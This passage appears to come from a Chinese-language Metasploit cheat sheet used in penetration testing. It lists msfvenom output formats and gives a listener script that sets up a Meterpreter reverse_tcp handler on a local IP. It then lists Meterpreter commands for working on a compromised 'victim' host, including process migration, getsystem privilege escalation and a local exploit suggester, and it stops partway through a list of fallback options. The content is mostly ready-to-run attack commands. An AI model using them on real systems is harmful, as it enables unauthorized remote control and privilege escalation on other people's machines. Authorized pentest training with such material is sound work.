 +   **可执行格式**：以下是我们可以使用的可执行格式：

`asp`，`aspx`，`aspx-exe`，`dll`，`elf`，`elf-so`，`exe`，`exe-only`，`exe-service`，`exe-small`，`hta-psh`，`loop-vbs`，`macho`，`msi`，`msi-nouac`，`osx-app`，`psh`，`psh-net`，`psh-reflection`，`psh-cmd`，`vba`，`vba-exe`，`vba-psh`，`vbs`，`war`。

+   **转换格式**：以下是我们可以使用的转换格式：

`bash`，`c`，`csharp`，`dw`，`dword`，`hex`，`java`，`js_be`，`js_le`，`num`，`perl`，`pl`，`powershell`，`ps1`，`py`，`python`，`raw`，`rb`，`ruby`，`sh`，`vbapplication`，`vbscript`。

# 监听脚本

```
$ touch script.rc $ echo use exploit/multi/handler >> script.rc $ echo set PAYLOAD windows/meterpreter/reverse_tcp >> script.rc $ echo set LHOST 192.168.0.114 >> script.rc $ echo set ExitOnSession false >> script.rc $ echo exploit -j -z >> script.rc $ msfconsole -r script.rc
```

# Meterpreter

+   `msf > sessions [选项或 ID]`：`sessions` 命令允许你列出、交互并结束已生成的会话。会话可以是 shell、Meterpreter 会话、VNC 等（使用 `sessions -h` 获取帮助）。

+   `meterpreter > background`：将当前的 Meterpreter 会话发送到后台，并返回到 `msf` 提示符。

+   `meterpreter > getuid`：显示 Meterpreter 服务器是否在主机上运行。

+   `meterpreter > sysinfo`：显示受害者的操作系统信息。

+   `meterpreter > cd`：更改受感染系统上的当前目录。

+   `meterpreter > ls`：列出当前目录中的文件。

+   `meterpreter > pwd`：打印受感染系统上的当前目录。

+   `meterpreter > ps`：显示目标主机上正在运行的进程列表。

+   `meterpreter > run post/windows/manage/migrate`：迁移到受害者的另一个进程。

+   `meterpreter > use priv`：在执行 `getsystem` 命令之前使用此命令。

+   `meterpreter > getsystem`：使用此命令提升你的权限。

如果你遇到错误 `priv_elevate_getsystem: 操作失败：访问被拒绝`，请按照以下步骤操作：

```
meterpreter > background
```

**选项 1**：

```
msf > use post/multi/recon/local_exploit_suggester msf post(local_exploit_suggester) > show options msf post(local_exploit_suggester) > run
```

**选项 2**：
